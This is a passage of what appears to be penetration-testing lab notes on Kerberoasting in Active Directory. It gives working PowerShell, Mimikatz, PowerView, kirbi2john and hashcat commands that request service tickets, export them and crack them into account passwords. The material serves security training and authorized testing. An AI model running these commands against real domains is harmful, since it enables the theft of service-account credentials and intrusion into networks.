 #### 2. Requesting TGS Tickets via PowerShell
```powershell
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
This loads a TGS ticket for the specified SPN into memory.

#### 3. Extracting Tickets with Mimikatz
```shell
mimikatz # kerberos::list /export
```
This command exports all Kerberos tickets from memory as `.kirbi` files.

#### 4. Preparing Tickets for Cracking
- If using base64 output:
  - Remove newlines/whitespace:
    ```shell
    echo "<base64 blob>" | tr -d '\n' > encoded_file
    base64 -d encoded_file > sqldev.kirbi
    ```
- Extract the hash using `kirbi2john.py`:
    ```shell
    python2.7 kirbi2john.py sqldev.kirbi > crack_file
    sed 's/\$krb5tgs\$(.*):(.*)/\$krb5tgs\$23\$*\1*\$\2/' crack_file > sqldev_tgs_hashcat
    ```
- Crack with Hashcat:
    ```shell
    hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
    ```

### Automated / Tool-Based Methods

Modern Kerberoasting is much faster and more efficient using PowerView and Rubeus.

#### Using PowerView

- **Enumerate SPN Accounts:**
    ```powershell
    Import-Module .\PowerView.ps1
    Get-DomainUser * -spn | select samaccountname
    ```
- **Request TGS Ticket for a User in Hashcat Format:**
    ```powershell
    Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
    ```
- **Export All Tickets to CSV:**
    ```powershell
    Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
    ```
- **Fix the hash format on Linux:**
   ```bash
   tr -d '[:space:]' < tgs.txt > fixed-tgs.txt
   ```
